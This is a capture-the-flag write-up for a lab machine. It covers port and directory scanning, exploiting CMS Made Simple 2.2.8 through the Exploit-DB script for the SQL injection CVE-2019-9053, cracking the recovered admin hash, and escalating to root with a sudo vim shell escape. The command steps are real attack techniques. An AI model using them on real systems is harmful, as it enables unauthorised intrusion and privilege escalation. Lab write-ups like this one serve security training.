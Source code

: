 # easyCTF

<img src="simple.png" width=200 height=200 alt="simple">

## Enumeraion

### nmap

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf

```
.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
[Status: 200, Size: 11321, Words: 3503, Lines: 376]
.hta                    [Status: 403, Size: 289, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
robots.txt              [Status: 200, Size: 929, Words: 176, Lines: 33]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
simple                  [Status: 301, Size: 309, Words: 20, Lines: 10]
```

They say its easy

`robots.txt` is written by 'mike'

fuzzing show a simple page with 301 code...we visited and got a simple page made with cms made simple (CMSMS)

`This site is powered by CMS Made Simple version 2.2.8`

okay then...of of the pages say

```
To get to the Administration Console you have to login as the administrator (with the username/password you mentioned during the installation process) on your site at http://yourwebsite.com/cmsmspath/admin. If this is your site click here to login.
```

lets google

Actually...found alot of cve that matches this version...but time-based sqli `CVE-2019-9053` was or best match

There is an exploit from exploitdb provided...a python script we are gonna use

Took me a bit to fix the script and make it work with python3 (I could just use python2 though)

I had to :

- change shebang line on top to 'python3' instead of 'python'
- add parenthesis to the print statements
- fix an error with md5 (added encode UTF-8 before the hexdigest) in crack_password function
- made sure to point -u argument to the simple cms path...like http://ip_address/simple
- and the most frustrating the TIME variable! due to my stupid slow internet I had to increase the variable to 20 to have results and it obviously took me waaaay longer

Anyway I got results

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

we ssh as mitch (remember the port is unusual -p 2222)

And we get right into business!
`$ cat user.txt`

## Priilege Escalation

```
$ sudo -l
User mitch may run the following commands on Machine:
(root) NOPASSWD: /usr/bin/vim
```

OH NO NOT VIM...hey but wait..we can run commands in vim

then its easy peazy

`sudo vim`

Then in vim we do:

```
:!/bin/bash
```

Ànd its over

```
root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Fastest privEsc in the west

```
root@Machine:/root# cat root.txt
```

its indeed an easy ctf...but its always fun to do

glhf!
